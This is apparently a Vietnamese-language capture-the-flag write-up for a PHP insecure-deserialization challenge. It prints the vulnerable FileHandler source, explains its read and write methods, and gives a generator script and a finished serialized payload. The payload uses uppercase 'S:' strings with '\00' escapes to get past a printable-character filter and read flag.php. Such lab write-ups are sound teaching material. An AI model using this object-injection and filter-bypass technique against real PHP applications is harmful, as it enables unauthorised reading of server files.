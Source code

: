 ```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

Ta có thể gửi tham số str thông qua method GET, sau đó nó sẽ được xử lý quá hàm is_valid().Nếu true thì sẽ unserialize() biến str rồi gán cho biến obj.

Hàm is_valid() cho phép các kí tự ASCII trong khoảng 32-125.

Khi unserialize() biến str thì hàm __destruct() sẽ được tự dộng gọi và sử op thành 1, content thành "".Và gọi đến hàm process().

```
 public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }
```

Nếu op là 1 thì sẽ gọi đến hàm write, op là 2 thì gọi hàm read, gán giá trị cho biến res và in ra nó.Và hàm read dùng hàm file_get_contents cho biến filename và ở đó cũng chẵng có filter gì nên là ta sẽ dùng cái này để đọc flag.

```
 private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }
```

Hàm write thì nó kiểm tra có tồn tại filename và content được khai báo hay có giá trị chưa. Sau đó kiểm tra độ dài của cotent có quá 100.Nếu đúng thì nó sẽ gọi hàm file_put_contents() để ghi nội dung đã được chỉ định bởi $this->filename và gán cho biến res.

```
private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }
```

Payload

```
<?php

class FileHander {
    protected $op = '2';
    protected $filename = 'flag.php';
    protected $content = 'aaa';
}

$a = new FileHander();
$res = serialize($a);
$res = str_replace(chr(0), '\00', $res);
$res = str_replace('s:', 'S:', $res);
echo $res
?>
```

Lúc ban đầu mình chạy ra thì output có NUllbyte nhưng do hàm is_valid kiểm tra Nullby lại ko có trong giới hạn của nó nên bị denied.Rồi mình research thì

```
s:5:"A<null_byte>B<cr><lf>";̀ -> S:5:"A\00B\09\0D";
```

Nên NULLnyte được thay bằng `\00` với điều kiện sau đó là uppercase

Payload: O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:8:"flag.php";S:10:"\00*\00content";S:3:"aaa";}

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/254c57f2-af52-491c-8eaa-3c6e1d6ea536)

